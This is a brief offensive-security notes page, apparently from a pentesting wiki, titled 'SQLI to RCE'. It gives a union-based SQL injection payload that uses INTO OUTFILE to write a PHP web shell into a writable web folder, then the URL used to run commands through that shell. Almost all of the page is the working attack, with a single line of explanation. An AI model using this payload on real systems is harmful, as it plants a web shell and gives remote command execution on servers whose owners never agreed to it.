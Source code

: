 ```yaml
---
description: Getting an RCE through SQLI
---
```


# SQLI to RCE

**Context:**&#x20;

{% content-ref url="../vulnerabilities/sqli/sqli-or-error-based.md" %}
[sqli-or-error-based.md](../vulnerabilities/sqli/sqli-or-error-based.md)
{% endcontent-ref %}

**Note** You need to find a location that has to write permission during the information-gathering phase. \
Ex: `/var/www/example/banners/`

### Payload:

```
...php?id=agency' union all select 1,2,3,4, "<?php system($_GET['hack']); ?>" INTO OUTFILE "/var/www/example/banners/blankheart.php"  %23
```

**Note:** In this case, the application interprets php-lang

### On Application

```
http://example.com/banners/blankheart.php?hack=command
```
